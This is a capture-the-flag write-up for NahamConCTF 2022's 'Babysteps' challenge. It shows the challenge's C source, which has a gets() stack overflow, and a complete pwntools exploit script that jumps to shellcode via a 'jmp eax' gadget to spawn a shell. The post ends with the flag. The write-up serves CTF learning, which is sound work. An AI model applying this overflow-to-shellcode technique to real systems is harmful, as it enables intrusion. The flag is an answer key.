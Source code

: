 ```yaml
---
title: "[NAHAMCONCTF] Babysteps"
excerpt_separator: <!--more-->
categories:
  - CTF
tags:
  - NAHAMCONCTF
  - PWN
  - "2022"
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


# Task source:
https://github.com/Tzion0/CTF/tree/master/NahamConCTF/2022/Binary_Exploitation/Babysteps

# Description
Become a baby! Take your first steps and jump around with BABY SIMULATOR 9000!

This challenge provided a C source code and its binary.

<!--more-->

The C source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>


#define BABYBUFFER 16

void setup(void) {
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
}

void whine() {
  puts("You whine: 'WAAAAAAHHHH!! WAAH, WAAHH, WAAAAAAHHHH'\n");
}

void scream() {
  puts("You scream: 'WAAAAAAHHHH!! WAAH, WAAHH, WAAAAAAHHHH'\n");
}

void cry() {
  puts("You cry: 'WAAAAAAHHHH!! WAAH, WAAHH, WAAAAAAHHHH'\n");
}

void sleep() {
  puts("Night night, baby!\n");
  exit(-1);
}


void ask_baby_name() {
  char buffer[BABYBUFFER];
  puts("First, what is your baby name?");
  return gets(buffer);
}

int main(int argc, char **argv){
  setup();

  puts("              _)_");
  puts("           .-'(/ '-.");
  puts("          /    `    \\");
  puts("         /  -     -  \\");
  puts("        (`  a     a  `)");
  puts("         \\     ^     /");
  puts("          '. '---' .'");
  puts("          .-`'---'`-.");
  puts("         /           \\");
  puts("        /  / '   ' \\  \\");
  puts("      _/  /|       |\\  \\_");
  puts("     `/|\\` |+++++++|`/|\\`");
  puts("          /\\       /\\");
  puts("          | `-._.-` |");
  puts("          \\   / \\   /");
  puts("          |_ |   | _|");
  puts("          | _|   |_ |");
  puts("          (ooO   Ooo)");
  puts("");

  puts("=== BABY SIMULATOR 9000 ===");

  puts("How's it going, babies!!");
  puts("Are you ready for the adventure of a lifetime? (literally?)");
  puts("");
  ask_baby_name();

  puts("Pefect! Now let's get to being a baby!\n");

  char menu_option;

  do{

    puts("CHOOSE A BABY ACTIVITY");
    puts("a. Whine");
    puts("b. Cry");
    puts("c. Scream");
    puts("d. Throw a temper tantrum");
    puts("e. Sleep.");
    scanf(" %c",&menu_option);

    switch(menu_option){

      case 'a':
        whine();
        break;
      case 'b':
        cry();
        break;
      case 'c':
        scream();
        break;
      case 'd':
        scream();
        cry();
        whine();
        cry();
        scream();
        break;
      case 'e':
        sleep();
        break;

      default:
        puts("WAAAAAAHHHH, THAT NO-NO!!!\n");
        break;
    }

  }while(menu_option !='e');

}
```

Looking at the source code, we can see there is a BOF vulnerability lies at a function called `ask_baby_name`:
```c
void ask_baby_name() {
  char buffer[BABYBUFFER];
  puts("First, what is your baby name?");
  return gets(buffer);
}
```

It asking for the baby name using `gets()` function which is insecure and the size of the buffer was set to 16 bytes which can be see here:
```c
#define BABYBUFFER 16
```

## Exploitation
First, we need to check any protections in this binary, we can use `checksec` for that, the result is:
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

From the output we can see it was a 32-bit binary and NX is disabled means that we can execute shellcode in the binary. The next step is we find the offset before overflowing the return function as we need to jmp to the shellcode we specify later, we use Cyclic for that and the offset was 28.

The next step we need to know is where and how we jump to. While debugging, we found that our provided input will be storing in EAX, which can be seen in the picture below:

![IMG](/assets/images/nahamconctf2022-babysteps/nahamcon-pwn.png)

With that being said, now we just need to find gadget to jmp to EAX, we can use `ropper` do that:
```
ropper -f babysteps --search jmp
```

![IMG](/assets/images/nahamconctf2022-babysteps/nahamcon-pwn2.png)

With all of the information we gathered, the final exploit script is:
```py
from pwn import *

exe = './babysteps'
elf = context.binary = ELF(exe, checksec=False)

# Start program
#io = remote("challenge.nahamcon.com",31983)
io = process(exe)

offset = 28

shellcode = asm(shellcraft.sh())
shellcode += asm(shellcraft.exit())

jmp_eax = asm('jmp eax')
jmp_eax = next(elf.search(jmp_eax))

# Build payload
payload = flat([
    b"\x90"*offset,
    jmp_eax,
    shellcode,
])

write('payload', payload)
# Send the payload
io.recvuntil(b"name?\n")
io.sendline(payload)

# Get our shell
io.interactive()
```

From script above we basically use `shellcraft` to generate shellcode to spawn shell for us. For the payload structure, since this is 32-bit binary, we first overflow to the return function with NOP ("\x90"), then jmp_eax which means jump to the NOP we provided earlier, and the shellcode was after the NOP, hence it get executed.

Result:

![IMG](/assets/images/nahamconctf2022-babysteps/nahamcon-pwn3.png)

Flag:
```
flag{7d4ce4594f7511f8d7d6d0b1edd1a162}
```
